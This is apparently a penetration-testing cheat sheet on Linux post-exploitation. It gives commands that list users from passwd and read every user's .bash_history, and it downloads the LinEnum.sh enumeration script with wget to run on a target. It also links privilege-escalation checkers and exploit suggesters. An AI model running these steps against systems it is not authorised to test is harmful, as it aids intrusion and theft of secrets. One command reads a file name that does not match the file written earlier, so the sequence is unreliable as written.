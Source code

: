 # Post-Exploitation on Linux

## Data Haversting and Enumaration

### Common users

`awk -F: '{ if($3 >= 1000) print $1}' passwd >> users` 

### Reading bash_history files

Mapping users directories

`ls /home/ > users_home`

Reading files

`for user in $(cat home_users); do echo $user; cat /home/$user/.bash_history ; echo -e "=====\n" ;done`

### Using great scripts

LinEnu.sh

wget [LinEnum.sh](https://raw.githubusercontent.com/kitsun3sec/Pentest-Cheat-Sheets/master/CheatSheets/pos_xpl/LinEnum.sh)

#### Upload it to the target and run through terminal

```bash
> chmod +x LinEnum.sh
> ./LinEnum.sh -t
```

#### Done, now pay attention to the output and see if there is anything *interesting*


## OTHERS SCRIPTS

* [LinuxPrivChecker](https://www.securitysift.com/download/linuxprivchecker.py)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [High Coffee](https://highon.coffee/downloads/linux-local-enum.sh)